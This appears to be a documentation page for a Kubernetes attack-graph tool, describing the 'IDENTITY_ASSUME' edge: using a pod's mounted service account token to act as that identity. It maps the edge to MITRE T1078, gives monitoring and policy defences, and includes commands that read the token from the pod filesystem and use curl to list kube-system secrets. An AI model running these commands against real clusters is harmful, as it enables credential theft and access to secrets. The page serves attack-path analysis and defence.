 # IDENTITY_ASSUME

Represents the capacity to act as an [Identity](../vertices/IDENTITY.md) via execution within a [Container](../vertices/POD.md), ownership of a token, etc.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/POD.md) | [Identity](../vertices/CONTAINER.md)  | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details

Authentication to the K8s API is performed via passing certificates, static tokens or OIDC tokens in the API request. This edge represents the ability to assume an identity using either acquired credentials (such as a service account token) or the intrinsic identity of a resource in K8s such as executing commands from inside a pod with a bound serviceaccount.

## Prerequisites

Control of execution within a container with a bound serviceaccount.

## Checks

Check for a mounted service account tokens or secrets:

```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

## Exploitation

Assuming a valid token is recovered from e.g a mounted service acc a token is found it can be used to interact with the K8s API, to potentially access new resources:

```bash
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets
```

## Defences

### Monitoring

+ Monitor for installation and/or execution of kubectl within pods. This is anomalous activity but may be triggered by legitimate SRE or developer activities.
+ Interacting directly with the K8s API via non-standard tools e.g curl could be observed via the User-Agent field in audit logs. However, this is attacker controlled so should not be relied on.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the identities under which new pods can run.

## Calculation

+ [IdentityAssume](../../pkg/kubehound/graph/edge/identity_assume.go)

## References:  

+ [Official Kubernetes Documentation](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#authentication-strategies)
+ [CURLing the Kubernetes API](https://nieldw.medium.com/curling-the-kubernetes-api-server-d7675cfc398c)
